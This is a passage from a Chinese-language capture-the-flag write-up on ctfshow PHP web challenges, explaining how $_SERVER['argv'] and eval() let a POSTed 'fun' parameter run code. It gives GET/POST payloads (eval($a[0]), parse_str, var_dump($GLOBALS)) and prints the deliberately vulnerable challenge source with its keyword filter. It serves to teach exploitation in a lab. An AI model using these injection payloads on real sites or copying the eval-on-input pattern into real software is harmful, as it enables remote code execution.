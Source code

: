 [![raTwY8.md.png](https://s3.ax1x.com/2020/12/20/raTwY8.md.png)](https://imgchr.com/i/raTwY8)

因为我们是在网页模式下运行的，所以`$_SERVER['argv'][0] = $_SERVER['QUERY_STRING']`也就是`$a[0]= $_SERVER['QUERY_STRING']`
 这时候我们只要通过 `eval("$c".";");`将$flag赋值flag_give_me就可以了。

[![ra7DN6.md.png](https://s3.ax1x.com/2020/12/20/ra7DN6.md.png)](https://imgchr.com/i/ra7DN6)

我们传值`?$fl0g=flag_give_me;` (记得有分号，后边需要eval执行)，然后此时 `$a[0]="$fl0g=flag_give_me;"` ,我们让 `eval("$c".";"); ` 中的 $c 变为`eval($a[0])` 即可成功使 fl0g 变量成功赋值。

paylaod:

```payload
GET:
?$fl0g=flag_give_me;

POST:
CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])
```

非预期解：

```paylaod
POST:  CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag
POST:  CTF_SHOW=&CTF[SHOW.COM=&fun=var_dump($GLOBALS)   题目出不来，本地测试可以
```

这个题本来的的预期解是：

```paylaod
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
```

但是按理说这样也可以的呀：

```php
get: fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[0])
```

[![raqHgO.md.png](https://s3.ax1x.com/2020/12/20/raqHgO.md.png)](https://imgchr.com/i/raqHgO)

https://blog.csdn.net/miuzzx/article/details/109181768

应该又是环境问题。

## web125~argv,parse_str

```php
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?|flag|GLOBALS|echo|var_dump|print/i", $c)&&$c<=16){
         eval("$c".";");
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?>
```
